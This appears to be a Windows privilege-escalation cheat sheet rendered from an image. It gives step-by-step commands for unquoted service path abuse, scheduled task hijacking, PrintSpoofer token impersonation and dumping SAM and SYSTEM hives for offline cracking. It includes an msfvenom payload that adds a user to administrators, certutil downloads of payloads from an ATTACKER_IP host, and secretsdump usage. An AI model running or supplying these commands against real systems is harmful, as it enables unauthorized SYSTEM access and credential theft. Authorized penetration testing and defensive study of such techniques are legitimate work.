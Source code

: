 Unquoted service path exploitation
- Suppose BINARY_PATH_NAME is: C:\Program Files\Vulnerable Service\service.exe (no quotes)
- Find earliest writable directory in the path; if you can write to C:\ or C:\Program Files\Vulnerable Service\
- Place a malicious Program.exe (or C:\Program.exe) so Windows resolves it first:
  - Generate on attacker:
```
msfvenom -p windows/x64/exec CMD="net localgroup administrators lowuser /add" -f exe -o Program.exe
```
  - Transfer and place accordingly:
```
certutil -urlcache -f http://ATTACKER_IP/Program.exe "C:\Program.exe"
```
- Restart the service:
```
sc stop "ServiceName"
sc start "ServiceName"
```

Scheduled tasks review and abuse
```
schtasks /query /fo LIST /v
```
- Look for “Run As User: SYSTEM” and “Task To Run:” pointing to a file you can modify.
- If you can write to the target binary/script, replace it with a payload and wait/trigger run:
```
schtasks /run /TN "\TaskName"
```

Token impersonation via SeImpersonatePrivilege (PrintSpoofer)
- Check:
```
whoami /priv
```
- If SeImpersonatePrivilege is Enabled:
```
certutil -urlcache -f http://ATTACKER_IP/PrintSpoofer64.exe C:\Windows\Temp\PrintSpoofer64.exe
C:\Windows\Temp\PrintSpoofer64.exe -i -c cmd
```
You should get a SYSTEM cmd.

SeBackupPrivilege path (if enabled)
```
whoami /priv
reg save HKLM\SAM C:\Windows\Temp\SAM.bak
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.bak
```
- Exfiltrate and parse with secretsdump.py offline (attacker):
```
secretsdump.py -sam SAM.bak -system SYSTEM.bak LOCAL
```

Quick PowerShell equivalents (enumeration)
```
powershell -NoP -C "Get-LocalUser; Get-LocalGroupMember Administrators"
powershell -NoP -C "Get-CimInstance Win32_OperatingSystem | fl Caption,Version,BuildNumber"
powershell -NoP -C "Get-Service | ? {$_.Status -eq 'Running'} | select Name,DisplayName,Status | ft -a"
powershell -NoP -C "Get-ScheduledTask | ? {$_.State -ne $null} | fl TaskName,TaskPath,State,Principal,Actions"
powershell -NoP -C "Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' | fl *"
```

